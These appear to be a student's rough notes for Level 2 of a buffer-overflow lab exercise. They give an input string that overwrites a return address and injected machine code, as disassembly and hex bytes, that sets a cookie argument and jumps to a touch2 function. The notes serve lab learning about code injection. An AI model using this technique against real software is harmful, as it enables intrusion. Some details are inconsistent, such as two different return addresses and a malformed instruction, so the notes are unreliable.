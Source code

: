 
## Level 2

   │0x4016e2 <touch2>       sub    $0x8,%rsp

What I need to do

As a return address we put 55 61 74 a0
Then in this location we write :

mov cookie, %rdi

Then we change the stack return pointer again
mov addressTouch2, $rsp
retq

This is exactly:

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
a8 74 61 55 00 00 00 00
movq $0x50fa73aa, %rdi
movq $0x4016e2, (%rsp)
retq

Very important do a MOVQ for RETQ (cause it pops a 64bits)
48 c7 c7 aa 73 fa 50 	mov    $0x50fa73aa,%rdi
   7:	48 c7 04 24 e2 16 40 	movq   $0x4016e2,(%rsp)
   e:	00 
   f:	c3         


00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
a8 74 61 55 00 00 00 00
48 c7 c7 aa 73 fa 50       //No padding in instructions, but padding if instruction uses a hardcoded integer !
48 c7 04 24 e2 16 40 00 // Like here the address is 4016e2 and not c34016e2
c3


